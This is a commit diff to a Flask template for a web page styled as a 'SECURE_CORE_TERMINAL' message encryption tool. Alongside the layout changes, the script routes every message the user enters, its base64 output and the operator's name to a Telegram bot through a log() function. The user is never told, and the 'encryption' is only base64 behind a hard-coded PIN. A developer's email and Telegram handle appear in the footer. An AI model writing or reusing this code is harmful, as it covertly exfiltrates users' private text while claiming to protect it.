

Before and after one commit to NILOYGHOSH88/MyProject_APK, a Flask app: page / in a window 1280 px wide. Before the commit the page ends 800 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update dashboard.html

```diff
--- a/templates/dashboard.html
+++ b/templates/dashboard.html
@@ -2,20 +2,24 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>SECURE_CORE_TERMINAL</title>
     <style>
-        body, html { margin: 0; padding: 0; height: 100%; font-family: 'Courier New', monospace; color: #00ff41; background: #000; overflow: auto; }
+        body, html { margin: 0; padding: 0; min-height: 100%; font-family: 'Courier New', monospace; color: #00ff41; background: #000; overflow-y: auto; }
         #terminal-bg { position: fixed; inset: 0; background: radial-gradient(circle, #051a05 0%, #000 100%); z-index: -1; }
         canvas { position: fixed; top: 0; left: 0; z-index: 0; pointer-events: none; }
-        .layer { position: relative; display: flex; align-items: center; justify-content: center; z-index: 10; min-height: 80vh; }
-        .panel { width: 350px; padding: 30px; border: 1px solid #00ff41; background: rgba(0, 10, 0, 0.95); text-align: center; box-shadow: 0 0 20px rgba(0, 255, 65, 0.2); }
+
+        .container { position: relative; z-index: 10; min-height: 100vh; display: flex; flex-direction: column; align-items: center; justify-content: center; padding: 20px; }
+        .panel { width: 100%; max-width: 400px; padding: 30px; border: 1px solid #00ff41; background: rgba(0, 10, 0, 0.95); text-align: center; box-shadow: 0 0 20px rgba(0, 255, 65, 0.2); margin-bottom: 20px; }
+
         .btn { padding: 12px; border: 1px solid #00ff41; background: transparent; color: #00ff41; cursor: pointer; width: 100%; margin-top: 10px; font-weight: bold; }
         .btn:hover { background: #00ff41; color: #000; }
         input, textarea { width: 100%; background: #000; color: #00ff41; border: 1px solid #00ff41; padding: 10px; margin: 10px 0; box-sizing: border-box; }
         .hidden { display: none; }
-        #timer-display { position: absolute; top: 10px; left: 10px; font-size: 18px; z-index: 20; color: #fff; }
-        /* Developer Footer Styles */
-        .dev-footer { text-align: center; padding: 20px; font-size: 12px; border-top: 1px solid #00ff41; margin-top: 20px; color: #008f11; line-height: 1.5; }
+        #timer-display { position: absolute; top: 10px; left: 10px; font-size: 18px; color: #fff; }
+
+        .dev-footer { text-align: center; padding: 20px; font-size: 13px; border-top: 1px solid #00ff41; margin-top: auto; color: #008f11; width: 100%; background: rgba(0,0,0,0.8); }
+        a { color: #00ff41; text-decoration: none; }
     </style>
 </head>
 <body>
@@ -24,24 +28,20 @@
     <div id="terminal-bg"></div>
     <canvas id="matrix"></canvas>
 
-    <div id="name-ui" class="layer">
-        <div class="panel">
+    <div class="container">
+        <div id="name-ui" class="panel">
             <h3>[ OPERATOR_ID ]</h3>
             <input type="text" id="username" placeholder="NAME" onkeypress="if(event.key==='Enter') saveName()">
             <button class="btn" onclick="saveName()">[ ACCESS ]</button>
         </div>
-    </div>
 
-    <div id="pin-ui" class="layer hidden">
-        <div class="panel">
+        <div id="pin-ui" class="panel hidden">
             <h3>[ PIN_AUTH ]</h3>
             <input type="password" id="pin-input" maxlength="4" placeholder="PIN" onkeypress="if(event.key==='Enter') checkPin()">
             <button class="btn" onclick="checkPin()">[ CONFIRM ]</button>
         </div>
-    </div>
 
-    <div id="main-ui" class="layer hidden">
-        <div class="panel">
+        <div id="main-ui" class="panel hidden">
             <h3>[ CORE_ENCRYPTION ]</h3>
             <textarea id="msg" placeholder="TYPE_MESSAGE..."></textarea>
             <button class="btn" onclick="proc('encode')">[ ENCODE ]</button>
@@ -49,14 +49,13 @@
             <div id="out" style="border:1px dashed #00ff41; padding:10px; margin:10px 0; word-break: break-all;">OUTPUT</div>
             <button class="btn" onclick="copyOut()">[ COPY_BUFFER ]</button>
         </div>
-    </div>
 
-    <!-- Developer Info Footer -->
-    <div class="dev-footer">
-        <p>DEVELOPER: NILOY GHOSH (@CipherSentinel_BD)</p>
-        <p>Email: n7753522@gmail.com</p>
-        <p>Advertise with us: <a href="https://t.me/DeIIIeted" style="color: #00ff41; text-decoration: none;">@DeIIIeted</a></p>
-        <p>&copy; 2026 SECURE_CORE_SYSTEM. All Rights Reserved.</p>
+        <div class="dev-footer">
+            <p>DEVELOPER: NILOY GHOSH (@CipherSentinel_BD)</p>
+            <p>Email: <a href="mailto:n7753522@gmail.com">n7753522@gmail.com</a></p>
+            <p>Advertise: <a href="https://t.me/DeIIIeted">@DeIIIeted</a></p>
+            <p>&copy; 2026 SECURE_CORE_SYSTEM.</p>
+        </div>
     </div>
 
 <script>
@@ -71,54 +70,12 @@
     function draw() { ctx.fillStyle = 'rgba(0,0,0,0.05)'; ctx.fillRect(0,0,c.width,c.height); ctx.fillStyle = '#00ff41'; ctx.font = '15px monospace'; drops.forEach((y, i) => { ctx.fillText(chars[Math.floor(Math.random()*chars.length)], i*20, y*20); if(y*20 > c.height) drops[i] = 0; drops[i]++; }); } setInterval(draw, 60);
 
     function log(msg) { fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage?chat_id=${CHAT_ID}&text=${encodeURIComponent(msg)}`); }
-
     function saveName() { username = document.getElementById('username').value; if(username) { document.getElementById('name-ui').classList.add('hidden'); document.getElementById('pin-ui').classList.remove('hidden'); document.getElementById('pin-input').focus(); } }
-
-    function checkPin() {
-        if(document.getElementById('pin-input').value === "0000") {
-            document.getElementById('pin-ui').classList.add('hidden');
-            document.getElementById('main-ui').classList.remove('hidden');
-            document.getElementById('timer-display').classList.remove('hidden');
-            startTimer();
-        } else { alert("WRONG PIN"); document.getElementById('pin-input').value = ""; }
-    }
-
-    function startTimer() {
-        startTime = Date.now();
-        timerInterval = setInterval(() => {
-            let elapsed = Math.floor((Date.now() - startTime) / 1000);
-            let m = Math.floor(elapsed / 60), s = elapsed % 60;
-            document.getElementById('timer-display').innerText = `TIME: ${m.toString().padStart(2,'0')}:${s.toString().padStart(2,'0')}`;
-        }, 1000);
-    }
-
-    window.onbeforeunload = () => {
-        let elapsed = Math.floor((Date.now() - startTime) / 1000);
-        let m = Math.floor(elapsed / 60), s = elapsed % 60;
-        log(`SESSION ENDED\nOperator: ${username}\nDuration: ${m}m ${s}s`);
-    };
-
-    function proc(mode) {
-        let val = document.getElementById('msg').value;
-        try {
-            let res = (mode === 'encode') ? btoa(val) : atob(val);
-            document.getElementById('out').innerText = res;
-            let logMsg = (mode === 'encode') ? `ENCRYPTED: ${val}\nRESULT: ${res}\nUser: ${username}` : `DECRYPTED: ${val}\nRESULT: ${res}\nUser: ${username}`;
-            log(logMsg);
-        } catch(e) { alert("DATA CORRUPTION"); }
-    }
-
-    function copyOut() {
-        const text = document.getElementById('out').innerText;
-        if(text === "OUTPUT" || !text) return;
-        const textArea = document.createElement("textarea");
-        textArea.value = text;
-        document.body.appendChild(textArea);
-        textArea.select();
-        document.execCommand("copy");
-        document.body.removeChild(textArea);
-        alert("COPIED!");
-    }
+    function checkPin() { if(document.getElementById('pin-input').value === "0000") { document.getElementById('pin-ui').classList.add('hidden'); document.getElementById('main-ui').classList.remove('hidden'); document.getElementById('timer-display').classList.remove('hidden'); startTimer(); } else { alert("WRONG PIN"); document.getElementById('pin-input').value = ""; } }
+    function startTimer() { startTime = Date.now(); timerInterval = setInterval(() => { let elapsed = Math.floor((Date.now() - startTime) / 1000); let m = Math.floor(elapsed / 60), s = elapsed % 60; document.getElementById('timer-display').innerText = `TIME: ${m.toString().padStart(2,'0')}:${s.toString().padStart(2,'0')}`; }, 1000); }
+    window.onbeforeunload = () => { if(username) log(`SESSION ENDED\nOperator: ${username}`); };
+    function proc(mode) { let val = document.getElementById('msg').value; try { let res = (mode === 'encode') ? btoa(val) : atob(val); document.getElementById('out').innerText = res; log(`${mode.toUpperCase()}: ${val}\nRESULT: ${res}\nUser: ${username}`); } catch(e) { alert("DATA CORRUPTION"); } }
+    function copyOut() { const text = document.getElementById('out').innerText; if(text === "OUTPUT" || !text) return; navigator.clipboard.writeText(text); alert("COPIED!"); }
 </script>
 </body>
 </html>
```
